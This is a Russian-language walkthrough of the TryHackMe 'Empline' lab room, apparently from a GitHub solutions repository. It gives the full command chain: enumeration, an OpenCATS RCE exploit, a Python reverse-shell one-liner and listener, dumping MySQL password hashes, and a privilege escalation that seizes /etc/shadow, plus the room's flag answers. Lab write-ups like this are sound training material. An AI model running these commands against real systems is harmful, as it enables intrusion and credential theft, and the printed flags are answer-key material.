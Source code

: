 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Empline](https://tryhackme.com/r/room/empline) 

Всего 3 задания:
## Задание 1
Убедитесь, что вы подключены к  сети TryHackMe . Если вы не знаете, как это сделать, сначала пройдите комнату OpenVPN.
### Ответьте на вопросы ниже
Разверните машину!
```commandline
Ответ не нужен
```

## Задание 2
Соберите все флаги, чтобы завершить комнату.
### Ответьте на вопросы ниже
Пользователь.txt
```commandline
nmap -sSCV -T4 <IP>
echo "<IP> empline.thm job.empline.thm" >> /etc/hosts
gobuster dir -w /usr/share/wordlists/dirb/common.txt -v -k -u http://job.empline.thm -x php,js,conf,bak,txt,old | grep “Found”
# http://job.empline.thm/careers
# OpenCATS <= 0.9.4 RCE (CVE-2021-41560)
./CVE-2021-41560.sh http://job.empline.thm/
whoami
export RHOST="<my_own_IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
cat user.txt
```
```commandline
91cb89c70aa2e5ce0e0116dab099078e
```
Корень.txt
```commandline
cat config.php
mysql -h <IP> -u james -p
show databases;
use opencats;
show tables;  
select * from user;
# admin          | b67b5ecc5d8902ba59c65596e4c053ec |
# cats@rootadmin | cantlogin                        |
# george         | 86d0dfda99dbebc424eb4407947356ac |
# james          | e53fbdb31890ff3bc129db0e27c473c9

# md5 hash
ssh george@<IP>
ls -l /etc/shadow                                                                                                                           
/usr/local/bin/ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/shadow')"   
ls -l /etc/shadow                                                                                                                           
openssl passwd -6 -salt abc password                                                                                                        
vim /etc/shadow                                                                                                                             
cat /etc/shadow
su root
```
```commandline
74fea7cd0556e9c6f22e6f54bc68f5d5
```

## Задание 3
Во-первых, я хотел бы поблагодарить вас за игру в эту машину. Надеюсь, вам было весело!

И еще, спасибо за отзыв о моей первой коробке ( Mustacchio ).

Завершение, большое спасибо Touklwez .

Хороший взлом!

### Ответьте на вопросы ниже
Спасибо!
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
